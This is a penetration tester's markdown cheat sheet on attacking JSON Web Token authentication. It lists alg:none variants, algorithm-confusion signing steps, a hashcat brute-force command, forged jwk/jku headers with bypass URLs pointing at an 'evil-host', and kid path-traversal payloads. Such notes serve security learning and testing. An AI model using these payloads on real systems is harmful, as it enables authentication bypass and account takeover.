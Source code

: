 ## JSON web tokens (JWTs)
A JWT consists of 3 parts: a header, a payload, and a signature. These are each separated by a dot

- The header and payload parts of a JWT are just base64url-encoded JSON objects.
- The JWT spec is extended by both the JSON Web Signature (JWS) and JSON Web Encryption (JWE) specifications, which define concrete ways of actually implementing JWTs. 
- In other words, a JWT is usually either a JWS or JWE token. When people use the term "JWT", they almost always mean a JWS token


### Check JWT is verified or not
- Prerequisite: Install JWT editor
- Nodejs library has jsonwebtoken which has verify() and decode() method. Sometime verify() is not used by developers and decode() is used.
- JWT header:
  - alg: `none` means no signature (add `.` at end) or algorithm
  - bypass these filters using classic obfuscation techniques, such as mixed capitalization and unexpected encodings. 


- Using portswigger/JWT Editor

    Find the public key, usually in `/jwks.json` or `/.well-known/jwks.json`
    Load it in the JWT Editor Keys tab, click New RSA Key.
    . In the dialog, paste the JWK that you obtained earlier: {"kty":"RSA","e":"AQAB","use":"sig","kid":"961a...85ce","alg":"RS256","n":"16aflvW6...UGLQ"}
    Select the PEM radio button and copy the resulting PEM key.
    Go to the Decoder tab and Base64-encode the PEM.
    Go back to the JWT Editor Keys tab and generate a New Symmetric Key in JWK format.
    Replace the generated value for the k parameter with a Base64-encoded PEM key that you just copied.
    Edit the JWT token alg to HS256 and the data.
    Click Sign and keep the option: Don't modify header

- JWT Signature - Recover Public Key From Signed JWTs
  https://github.com/SecuraBV/jws2pubkey
- JWT headers with the following key of interests
  - jwk: json web key
    - HS256 (HMAC + SHA156) uses a symmetric key
    - RS256 (RSA + SHA256) uses a assymetric key
    - Algorith for verify 
      ```
          function verify(token, secretOrPublicKey){
          algorithm = token.getAlgHeader();
          if(algorithm == "RS256"){
              // Use the provided key as an RSA public key
          } else if (algorithm == "HS256"){
              // Use the provided key as an HMAC secret key
          }
      }
      ```
      This could result in algorithmic confusion attack as Problems arise when website developers who subsequently use this method assume that it will exclusively handle JWTs signed using an asymmetric algorithm like RS256. In this case, if the server receives a token signed using a symmetric algorithm like HS256, the library's generic `verify()` method will treat the public key as an HMAC secret. This means that an attacker could sign the token using HS256 and the public key, and the server will use the same public key to verify the signature. 
    
  - jku: json web key uri: the website should trust only from specified uri but that too can be bypassed
    - https://expected-host:fakepassword@evil-host
    - https://evil-host#expected-host
    - https://expected-host.evil-host
    - or double encoding to bypass
  - kid: key id, there is no spec of which how to define the kid so it can be db-pid, file location, or random file or /dev/null (empty file). While kid is file path and prone to path traversal attack
  
TO read
    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/JSON%20Web%20Token/README.md
    https://github.com/ticarpi/jwt_tool
    https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/JSON%20Web%20Token/README.md?plain=1

### Payload to try
- unverified signature. Just modify payload and send
- JWT header: `alg: none` and no signature (add `.` at end)
  - `alg: none` means no signature (add `.` at end)
  - `none`
  - `None`
  - `NONE`
  - `nOnE`
- if `jwks.json` is found then any payload can be signed
- ADD new RSA > JWT Repeater > Attack > Embedded JSON Web Token (EJWT)
- Bruteforce attack on the signature
  `hashcat -a 0 -m 16500 <jwt> <wordlist>` # -m reppresents hashmode and 16500 represent jwt
- Algorithm confusion attack
  1) Obtain the server's public key: Find 
     1) `/jwks.json` or `/.well-known/jwks.json` or 
     2) extract from two token `docker run --rm -it sig2n <token1> <token2>`
        ```
        source ~/PycharmProjects/venvs/adobe_proj/bin/activate
        git clone https://github.com/silentsignal/rsa_sign2n.git
        cd rsa_sign2n/standalone
        sudo docker build . -t sig2n
        sudo docker run --rm -it sig2n
        docker run --rm -it sig2n <token1> <token2>
        ```
        - Copy all the JWTs and hit the login page with each one to find the correct JWT.
        - Once the correct key is found, base64 encode the key present at file using the decoder.
        - Generate a new symmetric key and replace the value of `k` with the copied value.
        - Don't replace the `kid` in jwt header and send the request.
  2) Convert the public key to a suitable format: modify to PEM or other format using JWT editor. convert the key > encode the RSA PEM key(contains new line) > Create HS256 key with k as the encoded RSA PEM key (does contain `==` at the end)
  3) Create a malicious JWT with a modified payload and the alg header set to `HS256`.
  4) Sign the token with HS256, using the public key as the secret.
- Check if `jwk` is accepted in header then 
  1) add any new generated RSA key using json web token tab > Attack > embed jwt token 
  or
  1) add `jwk` in header and modify `kid` and then sign and send
- Check if `jku` is accepted  
  - add header `jku` with a URL to check if pinged
  - setup a payload with content type as `application/json` with jwt payload as generated on JSON editor tab with RSA 512 being generated
    ```
    {
      "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        }
      ]
    }
    ```
  - add `jku` in header and modify `kid` and then sign and send
- Injecting via `kid` header parameter
  ```
  {
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
  }
  ```
  Sign the key with null path `/dev/null` and then sign it in burpsuite by first encoding base64
- Injecting via `kid` header parameter where kid is db related value
  `kid` might be prone to SQL injection attack
  - create the key with jwt editor > new symmetric key > `AA==` in value of `k`
  - add `kid` as null value `/dev/null` and different combination
    - `../dev/null/`
    - all other payloads present here `../small-script-payload/path_traversal_payload/deep_traversal.txt` or `psychoPATH` addon
    - `sed 's|{FILE}|dev/null|g' ../small-script-payload/path_traversal_payload/deep_traversal.txt` 
    - few file payload
    ```
    ../dev/null
    ../../dev/null
    ../../../dev/null
    ../../../../dev/null
    ../../../../../dev/null
    ../../../../../../dev/null
    ../../../../../../../dev/null
    ../../../../../../../../dev/null
    ```
- `cty` (Content Type) - Sometimes used to declare a media type for the content in the JWT payload. This is usually omitted from the header, but the underlying parsing library may support it anyway. If you have found a way to bypass signature verification, you can try injecting a cty header to change the content type to text/xml or application/x-java-serialized-object, which can potentially enable new vectors for XXE and deserialization attacks.
- `x5c` (X.509 Certificate Chain) - Sometimes used to pass the X.509 public key certificate or certificate chain of the key used to digitally sign the JWT. This header parameter can be used to inject self-signed certificates, similar to the jwk header injection attacks discussed above. Due to the complexity of the X.509 format and its extensions, parsing these certificates can also introduce vulnerabilities. Details of these attacks are beyond the scope of these materials, but for more details, check out CVE-2017-2800 and CVE-2018-2633.

